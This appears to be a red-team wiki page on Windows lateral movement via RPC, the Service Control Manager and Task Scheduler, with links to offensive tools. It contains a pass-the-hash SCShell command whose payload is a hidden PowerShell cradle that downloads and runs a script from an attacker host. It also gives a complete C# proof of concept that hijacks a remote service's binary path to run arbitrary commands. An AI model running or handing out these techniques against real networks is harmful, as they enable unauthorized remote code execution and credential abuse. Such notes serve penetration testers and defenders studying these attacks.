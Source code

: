 ```yaml
---
description: Remote Procedure Call
---
```


# RPC

- [https://sensepost.com/blog/2021/building-an-offensive-rpc-interface/](https://sensepost.com/blog/2021/building-an-offensive-rpc-interface/)
- [https://github.com/s0i37/lateral](https://github.com/s0i37/lateral)




## SCM

* [https://github.com/Mr-Un1k0d3r/SCShell](https://github.com/Mr-Un1k0d3r/SCShell)
* [https://github.com/juliourena/SharpNoPSExec](https://github.com/juliourena/SharpNoPSExec)
* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Fileless%20Lateral%20Movement/Program.cs)

Using Python [implementation](https://github.com/Mr-Un1k0d3r/SCShell/blob/master/scshell.py) and PtH:

```
$ python scshell.py MEGACORP/snovvcrash@192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -service-name lfsvc
SCShell>C:\windows\system32\cmd.exe /c powershell.exe -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://10.10.13.37:8080/payload.ps1')
```

Custom PoC:

{% code title="SharpSCExec.cs" %}
```csharp
using System;
using System.Runtime.InteropServices;

namespace SharpSCExec
{
    class Program
    {
        [DllImport("advapi32.dll", SetLastError = true, BestFitMapping = false, ThrowOnUnmappableChar = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        internal static extern bool LogonUser([MarshalAs(UnmanagedType.LPStr)] string lpszUsername, [MarshalAs(UnmanagedType.LPStr)] string lpszDomain, [MarshalAs(UnmanagedType.LPStr)] string lpszPassword, int dwLogonType, int dwLogonProvider, out IntPtr phToken);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool ImpersonateLoggedOnUser(IntPtr hToken);

        [DllImport("advapi32.dll", EntryPoint = "OpenSCManagerW", ExactSpelling = true, CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern IntPtr OpenSCManager(string machineName, string databaseName, uint dwAccess);

        [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern IntPtr OpenService(IntPtr hSCManager, string lpServiceName, uint dwDesiredAccess);

        [DllImport("advapi32.dll", CharSet = CharSet.Unicode, SetLastError = true)]
        public static extern Boolean QueryServiceConfig(IntPtr hService, IntPtr intPtrQueryConfig, UInt32 cbBufSize, out UInt32 pcbBytesNeeded);

        [DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);

        [DllImport("advapi32", SetLastError = true)]
        [return: MarshalAs(UnmanagedType.Bool)]
        public static extern bool StartService(IntPtr hService, int dwNumServiceArgs, string[] lpServiceArgVectors);

        [DllImport("kernel32.dll")]
        public static extern uint GetLastError();

        [StructLayout(LayoutKind.Sequential)]
        public class QueryServiceConfigStruct
        {
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwServiceType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwStartType;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwErrorControl;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpBinaryPathName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpLoadOrderGroup;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.U4)]
            public UInt32 dwTagID;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDependencies;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpServiceStartName;
            [MarshalAs(System.Runtime.InteropServices.UnmanagedType.LPWStr)]
            public String lpDisplayName;
        };

        static void Main(string[] args)
        {
            string target = args[0];
            string svcName = args[1]; // Potential candidates are: XblAuthManager, SensorService, BTAGService, lfsvc
            string payload = args[2];

            if (args.Length < 3)
            {
                Console.WriteLine("Usage: SharpSCExec.exe <TARGET> <SERVICE> <PAYLOAD>");
                Console.WriteLine("Example: SharpSCExec.exe SRV01 SensorService \"cmd.exe /c ping -n 2 10.10.13.37\"");
                return;
            }

            if (args.Length > 3)
            {
                string domain = args[3];
                string username = args[4];
                string password = args[5];
                IntPtr hToken = IntPtr.Zero;
                if (!LogonUser(username, domain, password, 0x9, 0, out hToken))
                {
                    Console.WriteLine($"[-] LogonUser failed: {GetLastError()}");
                    Environment.Exit(0);
                }
                if (!ImpersonateLoggedOnUser(hToken))
                {
                    Console.WriteLine($"[-] ImpersonateLoggedOnUser failed: {GetLastError()}");
                    Environment.Exit(0);
                }
            }

            IntPtr SCMHandle = OpenSCManager(
                target,
                null,
                0xF003F); // SC_MANAGER_ALL_ACCESS

            IntPtr hService = OpenService(
                SCMHandle,
                svcName,
                0xF01FF); // SERVICE_ALL_ACCESS

            UInt32 bytesNeeded;
            bool res = QueryServiceConfig(hService, IntPtr.Zero, 0, out bytesNeeded);
            IntPtr ptr = Marshal.AllocHGlobal((int)bytesNeeded);
            res = QueryServiceConfig(hService, ptr, bytesNeeded, out bytesNeeded);
            QueryServiceConfigStruct qsc = new QueryServiceConfigStruct();
            Marshal.PtrToStructure(ptr, qsc);
            string origBinaryPath = qsc.lpBinaryPathName;
            Console.WriteLine($"[*] Extracted original service binary: \"{origBinaryPath}\"");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                payload,
                null,
                null,
                null,
                null,
                null,
                null);

            if (res)
            {
                Console.WriteLine("[+] Service binary changed successfully!");
            }
            else
            {
                Console.WriteLine($"[-] Failed changing service binary: {GetLastError()}");
            }

            res = StartService(hService, 0, null);
            Console.WriteLine($"[*] StartService terminated with return code {res} and error {GetLastError()}");

            res = ChangeServiceConfigA(
                hService,
                0xffffffff, // SERVICE_NO_CHANGE
                0x3,        // SERVICE_DEMAND_START
                0,          // SERVICE_NO_CHANGE
                origBinaryPath,
                null,
                null,
                null,
                null,
                null,
                null);

            if (res)
            {
                Console.WriteLine("[+] Original service binary restored successfully!");
            }
            else
            {
                Console.WriteLine($"[-] Failed restoring original service binary: {GetLastError()}");
            }
        }
    }
}
```
{% endcode %}




## Task Scheduler

- [[PDF] Unorthodox Lateral Movement (Riccardo Ancarani)](https://github.com/RiccardoAncarani/talks/blob/master/F-Secure/unorthodox-lateral-movement.pdf)
- [https://riccardoancarani.github.io/2021-01-25-random-notes-on-task-scheduler-lateral-movement/](https://riccardoancarani.github.io/2021-01-25-random-notes-on-task-scheduler-lateral-movement/)
- [https://github.com/RiccardoAncarani/TaskShell](https://github.com/RiccardoAncarani/TaskShell)
- [https://labs.withsecure.com/publications/scheduled-task-tampering](https://labs.withsecure.com/publications/scheduled-task-tampering)
- [https://github.com/netero1010/ScheduleRunner](https://github.com/netero1010/ScheduleRunner)
- [https://github.com/netero1010/GhostTask](https://github.com/netero1010/GhostTask)
- [https://gist.github.com/Workingdaturah/991de2d176b4b8c8bafd29cc957e20c2](https://gist.github.com/Workingdaturah/991de2d176b4b8c8bafd29cc957e20c2)
- [https://github.com/dmcxblue/SharpGhostTask](https://github.com/dmcxblue/SharpGhostTask)
- [https://github.com/Ridter/atexec-pro](https://github.com/Ridter/atexec-pro)
- [https://github.com/jsecu/ModTask](https://github.com/jsecu/ModTask)
